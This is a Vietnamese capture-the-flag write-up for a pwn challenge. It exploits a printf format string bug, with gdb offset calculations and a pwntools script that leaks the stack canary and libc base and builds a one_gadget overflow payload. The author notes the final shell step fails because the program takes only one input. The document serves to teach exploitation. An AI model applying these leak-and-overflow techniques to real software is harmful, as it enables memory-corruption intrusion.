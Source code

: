 ### Write up format idea
- Em chỉ có ý tưởng về cái bài này thôi ạ, có thể nó đúng được 50%, 25% hay có thể là 0%, nhưng dù sao em vẫn muốn chia sẻ
## Bước 1: tính toán offset 
- Thì với bài format, em thấy nó có thể sử dụng format string để leak gì đó từ stack, mở ida và decompile hàm main ta thấy dòng này:
```c++
  printf(buf);
  ```

Tức là ta có thể sử dụng format string, sau đó ta vào gdb thấy rằng 


![image](https://github.com/antkss/writeUP/assets/88892713/632278cd-abb4-486d-ba47-ae80327fd0d7)

khi chạy đến đây là canary, ta tìm được giá trị của canary ở rax 

![image](https://github.com/antkss/writeUP/assets/88892713/7af6eb42-4567-4997-a012-42f499db5bb0)


dùng tel trong gdb để xem các block của stack 

![image](https://github.com/antkss/writeUP/assets/88892713/f250f76e-3fa0-44e0-8432-12fa44c74b44)


giá trị canary nằm ở đây


- Ta sẽ tính offset để leak, công thức là offset = (địa_chỉ_chứa_canary - địa_chỉ_rsp)/8 +6 và ở đây nó bằng 33

- em tính leak thêm cái libc_start_main nữa, như hình trên chỉ cần lấy 33+2 là ra offset của libc_start_main
- cuối cùng là e muốn có thêm libc_base nữa


![image](https://github.com/antkss/writeUP/assets/88892713/b725c6a2-adbf-4eb8-bc13-e8b8c38e9179)


e chỉ cần lấy địa chỉ của libc_start_main trừ đi cái này là ra cái offset, xong lấy offset đó cộng với địa chỉ libc_start_main trong script là có thể leak địa chỉ libc_base
## Bước 2 viết scripts
```python

#!/bin/python3
from pwn import *
p = process('./format')
#cong thuc tinh (p/d diachicanary - diachirsp)/8 + 6
payload = b'%33$p%35$p'


#payload += p64(0x0000000000401223)
input()
p.sendafter(b'flag^^\n',payload)
a = p.recvuntil(b'FLAG{fake_flag}')

datas = p.recvall().split(b'0x')
canary = int(datas[1],16)
libc_start_main = int(datas[2],16)
libc_base = libc_start_main - 0x27d8a
log.info('canary:' + hex(canary))
log.info('libc_start_main:' + hex(libc_start_main))
log.info('libc_base:' + hex(libc_base))

one_gadget = libc_base + 0xfabcf


payload = b'A'*40 + p64(canary) +p64(0) + p64(one_gadget)
#b'%93$p'
p.interactive()
```
khi chạy ta lấy được những địa chỉ mà ta muốn 


![image](https://github.com/antkss/writeUP/assets/88892713/a70549b7-7ad4-4911-9327-6b5fb15eb63f)



## DAMN

 em nghĩ mình có thể dùng execv("/bin/sh") trong libc được tìm bằng one_gadget để chạy vào shell, nhưng em quên rằng bài chỉ có 1 input, nên chỉ leak được địa chỉ và canary chứ không thể truyền vào lại =))))
